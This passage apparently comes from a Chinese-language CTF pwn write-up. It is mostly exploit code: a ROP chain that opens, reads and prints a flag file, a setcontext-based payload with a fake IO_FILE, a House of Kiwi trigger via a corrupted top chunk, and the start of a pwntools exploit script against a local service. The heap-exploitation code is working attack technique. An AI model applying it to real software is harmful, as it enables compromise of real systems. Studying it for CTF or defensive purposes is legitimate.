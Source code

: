 ```bash
rop_data = [
    pop_rax_addr,  # sys_open('flag', 0)
    2,
    syscall_addr,

    pop_rax_addr,  # sys_read(flag_fd, heap, 0x100)
    0,
    pop_rdi_addr,
    3,
    pop_rsi_addr,
    fake_frame_addr + 0x200,
    syscall_addr,

    pop_rax_addr,  # sys_write(1, heap, 0x100)
    1,
    pop_rdi_addr,
    1,
    pop_rsi_addr,
    fake_frame_addr + 0x200,
    syscall_addr
]
payload = p64(0) + p64(fake_frame_addr) + '\x00' * 0x10 + p64(setcontext_addr + 61)
payload += str(frame).ljust(0xF8, '\x00')[0x28:] + 'flag'.ljust(0x10, '\x00') + flat(rop_data)

edit(0, fake_IO_FILE)
edit(2, payload)
```

最后改 topchunk size 构造 House of kiwi 触发 malloc\_assert

```bash
# change top chunk size
delete(7)
add(8, 0x430)
edit(7, 'a' * 0x438 + p64(0x300))
run_opcode()
add(8, 0x450)  # House OF Kiwi
# gdb.attach(sh, "b _IO_cookie_write")
run_opcode()
```

完整 exp：

```bash
from pwn import *

context.log_level = "debug"
context.arch = "amd64"
# sh = process('./pwn')
sh = remote('127.0.0.1', 9999)
libc = ELF('./lib/libc.so.6')
all_payload = ""


def ROL(content, key):
    tmp = bin(content)[2:].rjust(64, '0')
    return int(tmp[key:] + tmp[:key], 2)


def add(idx, size):
    global all_payload
    payload = p8(0x1)
    payload += p8(idx)
    payload += p16(size)
    all_payload += payload
```